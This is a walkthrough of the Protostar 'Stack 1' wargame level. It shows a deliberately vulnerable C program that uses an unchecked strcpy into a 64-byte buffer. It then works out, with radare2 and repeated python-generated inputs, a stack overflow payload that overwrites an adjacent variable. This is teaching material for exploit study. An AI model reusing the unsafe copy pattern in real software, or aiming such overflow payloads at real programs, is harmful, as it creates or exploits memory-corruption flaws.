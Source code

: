 # Stack 1

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

Hints
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian

## Source code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```

## Solution

like last time lets open this up in radare2 and `seek` to `main`

``` bash
[root:~]# r2 -A ./1
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
[0x00000650]> s main
```

ok lets print the dissasembly

``` bash
[0x00000780]> pd

..Snip..

0x000007c7      e834feffff     call sym.imp.strcpy        ; char *strcpy(char *dest, const char *src);
|           0x000007cc      8b45fc         mov eax, dword [rbp - local_4h]
|           0x000007cf      3d64636261     cmp eax, 0x61626364
|       ,=< 0x000007d4      750e           jne 0x7e4
|       |   0x000007d6      488d3ddb0000.  lea rdi, qword str.you_have_correctly_got_the_variable_to_the_right_value ; 0x8b8 ; str.you_have_correctly_got_the_variable_to_the_right_value ; "you have correctly got the variable to the right value" @ 0x8b8

..Snip..

```

looking at that it looks to do a `cmp` of the `eax` to `0x61626364`

putting this in a little endian format would look like this 


``` bash
[root:~]# ./1 $(python -c 'print "A"*64 + "\x64\x63\x62\x61"')
Try again, you got 0x00000000
[root:~]# ./1 $(python -c 'print "A"*80 + "\x64\x63\x62\x61"')
Try again, you got 0x41414141
[root:~]# ./1 $(python -c 'print "A"*78 + "\x64\x63\x62\x61"')
Try again, you got 0x63644141
[root:~]# ./1 $(python -c 'print "A"*70 + "\x64\x63\x62\x61"')
Try again, you got 0x00000000
[root:~]# ./1 $(python -c 'print "A"*75 + "\x64\x63\x62\x61"')
Try again, you got 0x00616263
[root:~]# ./1 $(python -c 'print "A"*76 + "\x64\x63\x62\x61"')
you have correctly got the variable to the right value
```

the buffer was `64` but to have it have this value set to `0x61626364` it required `76`

